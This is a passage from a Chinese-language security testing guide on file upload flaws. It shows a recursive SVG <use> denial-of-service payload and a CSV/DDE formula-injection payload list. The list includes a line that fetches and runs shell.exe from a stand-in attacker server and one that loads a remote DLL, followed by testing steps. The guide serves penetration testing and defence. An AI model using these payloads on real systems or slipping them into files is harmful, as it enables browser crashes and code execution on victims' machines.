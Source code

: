 ```xml
&lt;g id=&#34;h&#34;&gt;&lt;use xlink:href=&#34;#g&#34;/&gt;&lt;use xlink:href=&#34;#g&#34;/&gt;&lt;use xlink:href=&#34;#g&#34;/&gt;&lt;use xlink:href=&#34;#g&#34;/&gt;&lt;use xlink:href=&#34;#g&#34;/&gt;&lt;use xlink:href=&#34;#g&#34;/&gt;&lt;use xlink:href=&#34;#g&#34;/&gt;&lt;use xlink:href=&#34;#g&#34;/&gt;&lt;use xlink:href=&#34;#g&#34;/&gt;&lt;use xlink:href=&#34;#g&#34;/&gt;&lt;/g&gt;
&lt;g id=&#34;i&#34;&gt;&lt;use xlink:href=&#34;#h&#34;/&gt;&lt;use xlink:href=&#34;#h&#34;/&gt;&lt;use xlink:href=&#34;#h&#34;/&gt;&lt;use xlink:href=&#34;#h&#34;/&gt;&lt;use xlink:href=&#34;#h&#34;/&gt;&lt;use xlink:href=&#34;#h&#34;/&gt;&lt;use xlink:href=&#34;#h&#34;/&gt;&lt;use xlink:href=&#34;#h&#34;/&gt;&lt;use xlink:href=&#34;#h&#34;/&gt;&lt;use xlink:href=&#34;#h&#34;/&gt;&lt;/g&gt;
&lt;g id=&#34;j&#34;&gt;&lt;use xlink:href=&#34;#i&#34;/&gt;&lt;use xlink:href=&#34;#i&#34;/&gt;&lt;use xlink:href=&#34;#i&#34;/&gt;&lt;use xlink:href=&#34;#i&#34;/&gt;&lt;use xlink:href=&#34;#i&#34;/&gt;&lt;use xlink:href=&#34;#i&#34;/&gt;&lt;use xlink:href=&#34;#i&#34;/&gt;&lt;use xlink:href=&#34;#i&#34;/&gt;&lt;use xlink:href=&#34;#i&#34;/&gt;&lt;use xlink:href=&#34;#i&#34;/&gt;&lt;/g&gt;
&lt;/svg&gt;
```

**原理**：

`xlink:href` 属性以 IRI（国际资源标识）方式定义了对某个资源的引用，该链接的具体含义需根据使用该链接的每个元素的上下文来决定。

`&lt;use&gt;` 元素从 SVG 文档中获取节点，然后将其复制到其他位置。

上述代码通过递归嵌套，导致浏览器拒绝服务，网站页面崩溃。



## 1.6. 允许上传CSV

如果允许上传CSV文件，且上传的CSV文件的内容未经过处理过滤直接保存，那么可以尝试上传具有恶意命令执行payload的CSV文件，当其他用户下载该CSV文件时，可能会导致命令执行。

CSV Payload

```csv
DDE (&#34;cmd&#34;;&#34;/C calc&#34;;&#34;!A0&#34;)A0
@SUM(1&#43;9)*cmd|&#39; /C calc&#39;!A0
=10&#43;20&#43;cmd|&#39; /C calc&#39;!A0
=cmd|&#39; /C notepad&#39;!&#39;A1&#39;
=cmd|&#39;/C powershell IEX(wget attacker_server/shell.exe)&#39;!A0
=cmd|&#39;/c rundll32.exe \\10.0.0.1\3\2\1.dll,0&#39;!_xlbgnm.A1
```

**检查思路：**

1. 上传恶意的CSV文件
2. 下载恶意的CSV文件
3. 观察下载后的CSV文件是否对`等号=`等特殊符号做了处理，payloads会否会成功执行，如果能则说明存在问题

参考：

- [CSV Injection at xxxxx](https://hackerone.com/reports/1748961)
- [Authenticated Code Execution through Phar deserialization in CSV Importer as Shop manager in WooCommerce](https://hackerone.com/reports/403083)





## 1.7. 允许上传PDF
